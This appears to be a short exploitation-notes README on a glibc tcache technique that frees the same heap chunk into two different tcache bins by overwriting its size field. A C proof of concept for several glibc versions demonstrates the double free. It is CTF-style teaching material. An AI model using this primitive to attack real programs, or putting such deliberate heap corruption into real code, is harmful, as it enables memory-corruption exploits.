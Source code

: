 <details>
<summary><strong>Description</strong></summary>
<p>

"the tcache double free check will only be able to detect another tcache freed chunk, since it checks for the tcache key..."

**and it only check for tcache chunks has the same size**, it cannot detect if the chunk we're trying to free already exists in different tcache bins. This is what we are going to leverage...

so basically we are going to insert a chunk into the tcache bins, modify it size field, then insert it into another tcache bins...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *p;

    p = malloc(0x78); // request size must be in tcache range

    free(p); // p goes to 0x80 tcache
    // [tcache 0x80]: p
    
    // VULNERABILITY
    p[-1] = 0x21; // change size field of p to 0x20 chunk
    free(p);
    // VULNERABILITY

    printf("now that chunk p exists both in 0x80 tcache and 0x20 tcache\n");
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/johnathanhuutri/CTFNote/tree/master/Heap-Exploitation#free-same-chunk-with-different-sizes-table-of-content

</p>